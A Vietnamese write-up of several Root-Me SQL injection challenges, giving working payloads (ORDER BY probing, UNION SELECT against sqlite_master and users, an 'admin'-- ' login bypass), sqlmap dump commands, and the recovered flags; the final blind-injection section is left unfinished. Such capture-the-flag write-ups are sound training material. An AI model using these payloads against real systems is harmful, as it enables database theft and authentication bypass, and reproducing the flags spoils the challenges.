 
# SQL injection - String
CMS v 0.0.2

http://challenge01.root-me.org/web-serveur/ch19/

**Statement**: Retrieve the administrator password

## Cách làm
### Tìm chức năng dính lỗi SQLi
Sau khi truy cập vào link, ta thấy có các chức năng như trang chủ, đăng nhập, tìm kiếm

![image](https://github.com/aQ05/Write-up/assets/121664384/cf62bf7a-4325-4994-b71b-156e05f23b2f)

Để biết lỗi SQLi xảy ra ở chức năng nào thì ta chỉ cần nhập ký tự `1'` và lỗi SQLi xuất hiện tại ô tìm kiếm

![image](https://github.com/aQ05/Write-up/assets/121664384/85d78798-2c99-4f34-8e7a-e058ec73c2c8)

CSDL được sử dụng ở đây là SQLite3 nên ta sẽ khai thác trên SQLite3.
### Tìm số cột
Đầu tiên sử dụng lệnh `ORDER BY` để kiểm tra số cột cho phép.

Nhập lệnh `1’ order by 1--` và đến `1' order by 3--` thì bị lỗi.

![image](https://github.com/aQ05/Write-up/assets/121664384/37d2dd10-8e0d-48cd-b20b-4f44b58d6530)

Tức là CSDL này có 2 cột. Dùng lệnh `UNION SELCT` để khai thác dữ liệu.
### Exploit
Với SQLite3 (https://www.sqlite.org/faq.html), ta sẽ `SELECT` đến `SQLITE_SCHEMA`

![image](https://github.com/aQ05/Write-up/assets/121664384/7c379380-5410-4360-a210-8ae1eacafb85)

Gõ lệnh `1' union select name,sql from sqlite_master--`, ta sẽ biết được CSDL này có 2 bảng là `news` và `users` với lần lượt là tên cột, kiểu dữ liệu.

![image](https://github.com/aQ05/Write-up/assets/121664384/df32cc27-1c25-403a-9444-fa297dadad2f)

`news (CREATE TABLE news(id INTEGER, title TEXT, description TEXT))`

`users (CREATE TABLE users(username TEXT, password TEXT, Year INTEGER))`

Đề bài yêu cầu tìm password admin nên ta cần truy xuất dữ liệu từ bảng `users`. Thực thi câu lệnh  `1' union select username, password from users --`, ta sẽ tìm được password của admin: `admin (c4K04dtIaJsuWdi)`

![image](https://github.com/aQ05/Write-up/assets/121664384/c1ae054f-3d4b-4b73-ad7c-8784c82412cd)

Và đăng nhập thành công
![image](https://github.com/aQ05/Write-up/assets/121664384/fd7edfcd-7f0e-47d7-9a70-4b19e9e56cd0)

## Flag
`c4K04dtIaJsuWdi`

# SQL injection - Authentication
Authentication v 0.01

**Statement:** Retrieve the administrator password

## Cách làm
Truy cập link http://challenge01.root-me.org/web-serveur/ch9/, ta thấy 1 trang web có chức năng đăng nhập.

Để đăng nhập, nhập `admin'-- ` vào trường `username` với mật khẩu tùy ý.

![image](https://github.com/aQ05/Write-up/assets/121664384/b9d97aa9-71bc-4f07-bbc3-fc8be27c67e9)


Để tìm passwprd, `Ctrl U` để xem source code
![Screenshot 2023-11-05 132759](https://github.com/aQ05/Write-up/assets/121664384/3d6556f8-c513-46af-a414-7babe327713b)


## Flag
`t0_W34k!$`

# SQL injection - Numeric
CMS v 0.0.1

**Statement:** Retrieve the administrator password.
## Cách làm
Truy cập link http://challenge01.root-me.org/web-serveur/ch18/ 

![image](https://github.com/aQ05/Write-up/assets/121664384/969b2c02-4a25-4fc4-99ec-8c052788be0f)

Thêm ký tự `'` vào cuối url để tìm lỗi. Trang `Système de news` xuất hiện lỗi và ta sẽ khai thác trực tiếp trên url.

![image](https://github.com/aQ05/Write-up/assets/121664384/32929941-ecae-4b37-9598-4406d6a98148)

CSDL được sử dụng ở đây là SQLite3 nên ta sẽ khai thác trên SQLite3.
### Tìm số cột
Đầu tiên sử dụng lệnh `ORDER BY` để kiểm tra số cột cho phép.

Nhập lệnh ` order by 1--` vào cuối url và đến ` order by 4--` thì bị lỗi.

![image](https://github.com/aQ05/Write-up/assets/121664384/09be6067-6a96-4e3e-bd13-daf75ef9acf5)

Tức là CSDL này có 3 cột. Dùng lệnh `UNION SELCT` để khai thác dữ liệu.
### Exploit
Nhập lệnh ` union select 1,2,3--` 

![image](https://github.com/aQ05/Write-up/assets/121664384/6ffaccf9-ac92-4545-9926-affc9108ec7e)

Như vậy ta có thể khai thác tại cột thứ 2 và 3. Lấy tên bảng bằng cách dùng câu lệnh ` union select 1,2,sql from sqlite_master--`, ta thu được 2 bảng:

![image](https://github.com/aQ05/Write-up/assets/121664384/2af7f0ba-1ec4-4e75-9da1-4fa9efc7ca5d)

Đề bài yêu cầu tìm password admin nên ta cần truy xuất dữ liệu từ bảng `users`. Thực thi câu lệnh  ` union select 1,username, password from users --`, ta sẽ tìm được password của admin: `aTlkJYLjcbLmue3`.

![Screenshot 2023-11-05 144912](https://github.com/aQ05/Write-up/assets/121664384/e795ce1e-224c-43f5-bbdb-c4f59d1de201)


## Flag
`aTlkJYLjcbLmue3`




# SQL injection - Error
Exploiting SQL error

**Statement:** Retrieve administrator’s password.

## Cách làm
Truy cập link http://challenge01.root-me.org/web-serveur/ch34/ thấy có xuất hiện 2 page `Authentication` và `Contents`. 

![image](https://github.com/aQ05/Write-up/assets/121664384/94565777-0f2c-482d-9605-e62b350cdd4a)

Truy cập vào từng trang và nhập `'` ở cuối url thì trang `Contents` xuất hiện lỗi

![image](https://github.com/aQ05/Write-up/assets/121664384/461a61c0-68eb-4b0f-8c74-3b78b78d2e8d)

Sử dụng sqlmap khai thác với url ta sử dụng `-u`. Gõ lệnh `sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs` (`-dbs` là để lấy dữ liệu database).

![Screenshot 2023-11-05 204442](https://github.com/aQ05/Write-up/assets/121664384/9997414a-9c0c-482a-9b7d-391390dd453e)

Có 3 database trả về, tuy nhiên ta chỉ cần chú ý đến database `public` và thực hiện lấy các tables trên db này.
Gõ lệnh: `sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables`

(`-D public` là để lấy kết quả trong database public).

![Screenshot 2023-11-05 204559](https://github.com/aQ05/Write-up/assets/121664384/b1aa43ab-37e9-4fe4-9c57-728854912f59)

Ta có 1 bảng là `m3mbr35t4bl3`. Thực hiện lấy data trong bảng. Gõ lệnh: `sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump`
(`T` là bảng cần lấy dữ liệu, `--dump` để lấy toàn bộ dữ liệu).

![Screenshot 2023-11-05 204707](https://github.com/aQ05/Write-up/assets/121664384/6f2714ff-2dca-4b0a-bd3f-f4fd33b7d4f8)

## Flag
`1a2BdKT5DIx3qxQN3UaC`

# SQL injection - Blind
Authentication v 0.02

**Statement:** Retrieve the administrator password.

## Cách làm
Truy cập link http://challenge01.root-me.org/web-serveur/ch10/. Giao diện hiện ra chức năng đăng nhập. Thử payload với username `admin’-- ` và password tùy ý. Tuy nhiên website không trả về bất kỳ thông tin về password nào cả.

![image](https://github.com/aQ05/Write-up/assets/121664384/40b751f2-59f2-4cd7-8793-daba5f376695)

Mở burpsuite thử thay đổi payload bằng cách sử dụng `union select`. Dùng lệnh `username=admin%27+union+select+password+from+users+where+username='admin'--+-&password=1` và trang web vẫn không có gì thay đổi.


## Flag




